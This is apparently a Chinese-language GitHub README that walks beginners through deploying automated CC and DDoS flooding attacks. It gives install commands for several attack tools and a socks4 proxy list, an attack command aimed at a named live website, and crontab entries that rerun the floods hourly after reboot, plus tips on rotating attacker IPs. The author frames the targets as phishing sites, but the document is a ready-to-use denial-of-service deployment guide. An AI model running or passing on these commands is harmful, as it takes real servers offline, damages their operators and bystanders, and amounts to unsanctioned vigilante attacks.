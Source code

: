 # Nyaa:Automata ![](https://img.shields.io/github/stars/NyaaCaster/HydaelynAttack?style=social)
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)
- [x] [**NyaaCaster/HydaelynAttack**](https://github.com/NyaaCaster/HydaelynAttack)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
```shell
apt update -y
apt install git vim zip python3 python3-pip -y
wget https://nyaacaster.github.io/Nyaa-Automata/requirements.txt
python3 -m pip install --upgrade pip
pip3 install -r requirements.txt
```

## 安装CC-attack
```shell
git clone https://github.com/Leeon123/CC-attack.git
```

## 获取Proxy-List的socks4喂料包
```shell
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/socks4.txt" > socks4.txt
```
## 安装overload（ddos工具）
```shell
git clone https://github.com/7zx/overload.git
cd overload/
wget https://nyaacaster.github.io/Nyaa-Automata/overload_p.py
cd ..
```
- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整

## 安装HydaelynAttack（ddos工具，流量开销大，每轮攻击12M，计费流量的自己规划好开销）
```shell
git clone https://github.com/NyaaCaster/HydaelynAttack.git
```

## 如果要单独一次性执行cc
```shell
python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
```
- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行overload
```shell
python3 ~/overload/overload_p.py
```
- 自己修改建立了新脚本后执行自己的就可以

## 如果要单独性执行HydaelynAttack
```shell
python3 ~/HydaelynAttack/HydaelynAttack_p.py
```
- HydaelynAttack项目有多个脚本可选，具体看该项目说明


## 部署订制执行计划
```shell
crontab -e
```
- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
```shell
0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
15 * * * * python3 ~/HydaelynAttack/HydaelynAttack_p.py
30 * * * * python3 ~/overload/overload_p.py
```
- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0 15 30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
```shell
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)
```

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
